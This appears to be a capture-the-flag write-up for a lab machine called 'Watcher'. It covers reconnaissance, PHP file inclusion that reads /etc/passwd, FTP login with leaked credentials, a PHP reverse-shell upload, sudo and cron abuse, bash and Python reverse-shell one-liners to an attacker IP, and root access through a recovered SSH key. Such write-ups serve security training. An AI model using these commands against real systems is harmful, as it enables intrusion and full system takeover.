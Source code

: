 ```yaml
---
layout: post
title: Watcher Write-Up
comments: true
---
```


When approching a machine my first step is to use a map to see what is running on the server.
`nmap -sV 10.10.130.17`
When this command is run the first thing I notice is the http server and then secondly I see the ftp server.

Let's take a look at the http server. I want to take a look at the website. This website looks like a blog. When you open one of the blog posts and take a look at it. First I looked at the URL to see that this blog uses php to access posts. We will come back to this later.
Next, I used gobuster to fuzz the directories of the machine, you can also use dirbuster or ffuf.

`gobuster dir -u 10.10.130.17 -w /usr/share/wordlists/dirb/common.txt`

After this command is run, we see there is a robots.txt. Lets take a look at it.
looking at 10.10.130.17/robots.txt, we find flag_1 and secret_file_do_not_read.txt. Congrats, We have our first flag!

Now let's try and open secret_file_do_not_read.txt. We don't have permission to open this file, but maybe we can bypass this?
Let's open a blog post again. In the url of the posts we have 

"http://10.10.130.17/post.php?post=&lt;postname>.php".

The first thing I do when I see a php query is try to view /etc/passwd as a test.

"http://10.10.130.17/post.php?post=/etc/passwd"

From this we can see the file, there are two users that I see: Mat and Toby.
Now that we know we can view files with this, lets open the secret file.

"http://10.10.130.17/post.php?post=secret_file_do_not_read.txt"

In this file there is a note to Mat about ftp credentials.
when we sign into the ftp server we see some files: a directory called files and flag_2.txt

We can copy the flag to our local machine with the get command and then view the flag on our local machine.

Now that we have the ability to ftp into the machine, we can spawn a reverse shell with a php script. I am using the one here: 
[php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

To make this script work we need to change the IP and port.

In this screenshot I changed the IP to my ip address and port to 4444.

Next we upload the script, sign into the ftp server once again, and cd into the files directory. Upload the php file you just modified using 

`put <path to file on local machine>`

Once it's uploaded we need to find where the file was saved. On the note to Mat, Will says the files are saved in /home/ftpuser/ftp/files. Let's go to the file we uploaded using the php url we used to see this note.

We see an error in the code, which in our case is good. This shows our code is uploaded.

Next we need to listen for the shell to spawn using `nc -lvnp 4444`

Now we see that we have a shell!
To make this shell look a little nicer we can run
```
/usr/bin/script -qc /bin/bash /dev/null`
control + z to put the shell in the background
stty raw -echo
fg
export TERM=xterm
```

Lets try to find our third flag
`find / -name flag_3.txt 2>/dev/null`	

If we run whoami we can see that we are www-data.

Next, lets see what commands we can run with sudo with "sudo -l"
After running this command we see we can run any command with the user, Toby.
We can use this to see flag_4.txt in Toby's home directory with "sudo -u toby cat /home/toby/flag_4.txt"

In the same directory there is an note.txt, view it with the same command we just did but with note.txt. In the file it talks about cron jobs.

To view cron tabs you can run `cat /etc/crontab`

We can edit the job in /home/toby/jobs/cow.sh
and add this line
`bash -i >& /dev/tcp/10.8.98.192/4444 0>&1`
to create a reverse shell to intercept with nc

Once we have the shell we can cat out flag_5.txt and stabalize the shell as we did earlier 

Next, run in the scripts directory with another nc session listening 
`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.8.108.69',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" > cmd.py`

Here you can get the next flag in Will's home directory

After some looking around with the Will user I found a .b64 file in /opt/backups/key.b64, With this file I used `base64 -d key.b64 > id_rsa` and downloaded it with `python3 -m http.server`

Finally we can ssh `ssh -i id_rsa root@10.10.193.197`
and cat out flag_7.txt.

Congratulations, flag 7 completed!
